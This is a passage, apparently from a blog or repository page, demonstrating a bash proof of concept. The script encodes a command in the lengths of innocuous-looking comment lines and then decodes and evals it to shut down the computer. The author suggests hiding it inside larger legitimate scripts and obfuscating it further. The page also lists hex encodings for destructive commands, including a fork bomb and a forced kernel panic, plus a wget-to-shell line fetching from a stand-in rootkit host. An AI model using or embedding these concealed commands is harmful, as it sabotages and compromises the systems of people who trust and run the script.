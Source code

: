 Instead of just outputting a string, let's make a string and then execute it as a command.

Here is a proof of concept script that triggers `init 0` (69 6e 69 74 20 30) to shut down your computer with only comments:

```bash
#!/bin/bash
# First, you need to pipe my cool github library into your root shell

# Delete /

# Then, renice my program to give me all the ram, cpu, and disk space

# Next, we need to install these twelve other libraries to enable webscale

# Clean up / & ~ dir

# Finally, go favorite my repo

eval $(awk '$0 ~ /# [A-Z]/ {print length}' $0|tr '\n' ' '| sed 's/10/6e/g'|xxd -p -r)
```

> **Note:** This won't work on a `systemd` system if it was built with the `-SYSVINIT` compatibility flag like newer Arch installs are. You can (sometimes) check with  `init --version`

The only difference here is that `awk` just looks for any line that starts with a # then a space and a capitalized alphabetical character to count the total.

Since you don't have to worry about other commands messing up your output like in my previous example, you could easily hide this in a bigger script that actually does real things at the same time. Most people also ignore comments because they don't do anything in Bash scripts, so you would just need to obfuscate the actual command part. Possibly with some misdirection by assigning parts to variables or multi-line pipes with a \ sign.

### Other Fun Ideas

 - `mv ~ /dev/null` is 6d 76 20 2f 20 2f 64 65 76 2f 6e 75 6c 6c
 - `:(){:|:&};:` is 3a 28 29 7b 3a 7c 3a 26 7d 3b 3a
 -  `echo 1 > /proc/sys/kernel/panic` is 65 63 68 6f 20 31 20 3e 20 2f 70 72 6f 63 2f 73 79 73 2f 6b 65 72 6e 65 6c 2f 70 61 6e 69 63
 -  `wget http://notarootkit.com -O- | sh` you'll have to find out yourself

Conclusion
----------
This is a very fun method of hiding things in plain sight and I am curious to see what other possible applications/methods there could be for this. Please send me an email if you know of one!
